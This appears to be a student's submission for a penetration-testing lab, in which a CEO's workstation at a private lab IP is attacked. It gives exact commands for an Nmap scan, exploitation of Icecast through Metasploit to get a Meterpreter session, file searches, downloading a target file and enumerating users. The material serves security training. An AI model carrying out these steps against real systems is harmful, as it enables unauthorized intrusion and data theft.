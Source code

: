 ### Submission
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV 192.168.0.20```

![nmap](/17-Pentration-Testing-2/screenshots/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

![searchsploit](/17-Pentration-Testing-2/screenshots/searchsploit_ice.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```msfconsole```

![msfconsole](/17-Pentration-Testing-2/screenshots/msfconsole.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```search icecast```
 
![icecast-search](/17-Pentration-Testing-2/screenshots/icecast-search.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```

![msf-use](/17-Pentration-Testing-2/screenshots/msf_use.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```set RHOST 192.168.0.20```

![rhost](/17-Pentration-Testing-2/screenshots/rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```run```

![run](/17-Pentration-Testing-2/screenshots/run.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: ```search -f *secretfile.txt```
  
1. You should now have a Meterpreter session open.
 
  - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: ```search -f *recipe.txt```

![search](/17-Pentration-Testing-2/screenshots/search.png) 
 
  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


> Answer: ```download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'```

![recipe](/17-Pentration-Testing-2/screenshots/download.png)
 

1. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ```run post/windows/gather/enum_logged_on_users```

![users](/17-Pentration-Testing-2/screenshots/users.png)
 
     
B. Open a Meterpreter shell. 
 
  > Answer:  ```shell```
 
C. Run the command that displays the target's computer system information:

   > Answer: From the shell ```systeminfo```. If from Meterpreter, it would be ```sysinfo```

**Shell**

![systeminfo](/17-Pentration-Testing-2/screenshots/sysinfo.png)

**Meterpreter**

![sysinfo2](/17-Pentration-Testing-2/screenshots/sysinfo2.png)

